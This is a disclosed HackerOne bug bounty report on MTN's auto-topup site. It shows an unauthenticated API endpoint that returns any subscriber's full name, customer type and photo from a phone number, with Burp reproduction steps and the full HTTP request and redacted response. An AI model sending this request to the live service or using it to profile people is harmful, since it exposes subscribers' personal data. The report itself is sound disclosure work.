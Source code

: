 # Information Disclosure Leads To User Data Leak

## Report Details
- **Report ID**: 1541660
- **URL**: https://hackerone.com/reports/1541660
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2022-04-14T20:48:45.048Z
- **Disclosed**: 2022-12-24T13:34:44.220Z

## Reporter
- **Username**: netboy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
Information disclosure is when a web application fails to properly protect confidential information, which causes revealing sensitive information or data of the users or anything related to users to any third party.

## Summary:
Am able to get any MTN users data such as FULL NAME, CUSTOMER TYPE AND PICTURE.
I can get those data by using only phone number of any MTN users.
VUL URL: https://mtnautotopup.mtnonline.com/autotopup/app/sign-up-phone 
VUL URL: https://197.210.3.135/autotopup/app/sign-up-phone
~NOTE: Tested with a Nigeria phone number that belong to me.

## Steps To Reproduce:

  1. Visit `https://mtnautotopup.mtnonline.com/autotopup/app/sign-up-phone` or `https://197.210.3.135/autotopup/app/sign-up-phone`
  2. Put in a phone number and catch the request via BURP
  3. INTERCEPT  the request of `GET /vtu-service/api/pwa/pub/get-bio-data/081*******`
  4. The response contains Fullname, Customer Type and Picture of the user.

## Supporting Material/References:
VUL REQUEST:
```
GET /vtu-service/api/pwa/pub/get-bio-data/070******** HTTP/1.1
Host: mtnautotopupservices.mtnonline.com
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Accept: application/json, text/plain, */*
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://mtnautotopup.mtnonline.com
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://mtnautotopup.mtnonline.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
RESPONSE:
```
HTTP/1.1 200 OK
Date: Thu, 14 Apr 2022 20:11:05 GMT
Server: WildFly/10
X-Frame-Options: https://mtnautotopup.mtnonline.com, https://mtnautotopupservices.mtnonline.com, https://billable.mtnonline.com, https://mtnautotopup.mtnonline.com, https://mtnautotopupservices.mtnonline.com, https://billable.mtnonline.com
Access-Control-Allow-Credentials: âtrueâ, âtrueâ
Access-Control-Expose-Headers: origin, content-type, accept, Authorization,Access-Control-Allow-Origin, origin, content-type, accept, Authorization,Access-Control-Allow-Origin
Access-Control-Allow-Headers: Access-Control-Allow-Headers, Origin,Accept, X-Requested-With, Content-Type, Access-Control-Request-Method,Access-Control-Request-Headers, Authorization, Access-Control-Allow-Methods, Access-Control-Allow-Headers, Origin,Accept, X-Requested-With, Content-Type, Access-Control-Request-Method,Access-Control-Request-Headers, Authorization, Access-Control-Allow-Methods
X-XSS-Protection: 1; mode=block
Referrer-Policy: origin-when-cross-origin
Access-Control-Allow-Origin: *
X-Powered-By: Undertow/1
Content-Type: application/json
Cache-Control: max-age=0, public, no-cache, private, no-store
Expires: Sat, 16 Apr 2022 20:11:05 GMT
Access-Control-Allow-Methods: PUT, GET, POST, DELETE, OPTIONS
X-Content-Type-Options: nosniff
X-Content-Security-Policy: default-src 'self' *.mtnonline.com
Strict-Transport-Security: max-age=631138519; includeSubDomains
Feature-Policy: vibrate *; usermedia *; sync-xhr *
Access-Control-Allow-Methods: PUT, GET, POST, DELETE, OPTIONS
X-Content-Security-Policy: default-src 'self' *.mtnonline.com
Feature-Policy: vibrate *; usermedia *; sync-xhr *
Connection: close
Content-Length: 295017

{"responseCode":"00","responseDescription":"Successful","firstname":"EXPOSE","lastname":"EXPOSE","othername":"EXPOSE","customerType":"Prepaid","profileImg":"EXPOSE"}
```
NOTE: I replaced the exposed data with EXPOSE.

## Impact

An attacker can retrieve any users data (like full name, Customer Type, and Picture) by just using the victim phone number.
This can be use for information gathering about someone for malicious use or criminal activity.

## Attachments
No attachments
